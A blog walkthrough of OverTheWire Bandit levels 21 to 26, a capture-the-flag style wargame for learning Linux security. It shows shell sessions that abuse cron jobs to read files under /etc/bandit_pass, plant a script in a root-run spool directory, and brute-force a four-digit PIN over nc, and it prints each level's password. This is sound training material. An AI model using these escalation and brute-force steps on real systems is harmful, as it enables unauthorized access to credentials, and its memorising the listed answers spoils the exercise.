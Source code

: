 ```yaml
---
layout: post
title: "OverTheWire: Bandit 21-26"
date: 2016-10-21 12:00:00
share: true
comments: true
---
```


## Bandit 21

Very easy level, you'll need to read about cron, but for now first paragraph of this [link ](https://help.ubuntu.com/community/CronHowto)will do:

```
 "Cron is a system daemon used to execute desired tasks (in the background) at
 designated times.
 
 A crontab file is a simple text file containing a list of commands meant to be
 run at specified times. It is edited using the crontab command. The commands
 in the crontab file (and their run times) are checked by the cron daemon,
 which executes them in the system background."
```

First, let's see which cron job is being executed for bandit 22:


```console
bandit21@melinda:~$ cd /etc/cron.d
bandit21@melinda:/etc/cron.d$ ls
behemoth4_cleanup cronjob_bandit23    leviathan5_cleanup  natas-session-toucher natas25_cleanup~ php5    semtex0-ppc vortex0
cron-apt      cronjob_bandit24    manpage3_resetpw_job natas-stats      natas26_cleanup  semtex0-32 semtex5   vortex20
cronjob_bandit22  cronjob_bandit24_root melinda-stats     natas25_cleanup    natas27_cleanup  semtex0-64 sysstat

bandit21@melinda:/etc/cron.d$ cat cronjob_bandit2
cat: cronjob_bandit2: No such file or directory
bandit21@melinda:/etc/cron.d$ cat cronjob_bandit22
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```

What does `/usr/bin/cronjob_bandit22.sh` do?

```console
bandit21@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

First line after the sha-bang gives the temp file the following permissions: user can write, anyone can read. So we're able to read the content of that file.
Second line copies the content of /etc/bandit_pass/bandit22 (containing our password) to the temporary file. Check it's content and you'll find the password to the next level!

Password: `Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI`


## Bandit 22

Same steps as earlier, let's see what the script /usr/bin/cronjob_bandit23.sh
does:

```console
bandit22@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash
myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
cat /etc/bandit_pass/$myname > /tmp/$mytarget
```

So we need to get the MD5 encoding of $target (which is "I am user bandit23"),
then read the content of `/tmp/MD5output`:

```console
bandit22@melinda:/etc/cron.d$ md5sum <<< $(echo I am user bandit23)
8ca319486bfbbc3663ea0fbe81326349 -
bandit22@melinda:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit22@melinda:/etc/cron.d$
```

## Bandit 23

More of the same, let's see what the script does:

```console
bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
timeout -s 9 60 "./$i"
rm -f "./$i"
fi
done
```

So it navigates to `/var/spool/bandit24` directory and executes all scripts as bandit24. Alright, so we need to make it write the content of `/etc/bandit_pass/bandit24` somewhere, maybe a temporary file? Make sure you give the script and the folder the correct permissions.

```console
bandit23@melinda:/etc/cron.d$ mkdir /tmp/somefunnyname
bandit23@melinda:/etc/cron.d$ chmod 777 /tmp/somefunnyname
bandit23@melinda:/etc/cron.d$ cd /tmp/somefunnyname
bandit23@melinda:/tmp/somefunnyname$ cat > torun.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/somefunnyname/password
^C
bandit23@melinda:/tmp/somefunnyname$ chmod 777 torun.sh
bandit23@melinda:/tmp/somefunnyname$ cp torun.sh /var/spool/bandit24/
bandit23@melinda:/tmp/somefunnyname$ ls -al /var/spool/bandit24/
total 153
drwxrwxrwx 2 bandit24 bandit23 151552 Oct 21 23:08 .
drwxr-xr-x 6 root   root    4096 May 3 2015 ..
bandit23@melinda:/tmp/somefunnyname$ ls
password torun.sh
bandit23@melinda:/tmp/somefunnyname$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Script got deleted, which means cron executed it and we got our password!


## Bandit 24

Our first bash for loop! You may want to read more about it [here](http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-7.html).

First let's see how the daemon behaves. You'll realize it allows multiple input, we can create a list with format "&lt;password&gt; &lt;pin&gt;" for 0000-9999 and feed it to NC. Let's create a temp directory and navigate to it:

```console
bandit24@melinda:/tmp/abatchy24$ `for i in $(seq 0000 9999); do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >>list.txt; done  `
bandit24@melinda:/tmp/abatchy24$ `head list.txt`
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 3
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 4
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 6
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 7
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 8
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9
bandit24@melinda:/tmp/abatchy24$ `tail list.txt`
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9990
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9991
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9992
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9993
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999
bandit24@melinda:/tmp/abatchy24$ `nc -nv 127.0.0.1 30002 < list.txt | grep -v Wrong`
Connection to 127.0.0.1 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Exiting.
```

Done.

## Bandit 25

Just another SSH key, but you may want to look into /etc/passwd file...



## Bandit 26

Research escaping restrcited shell ;)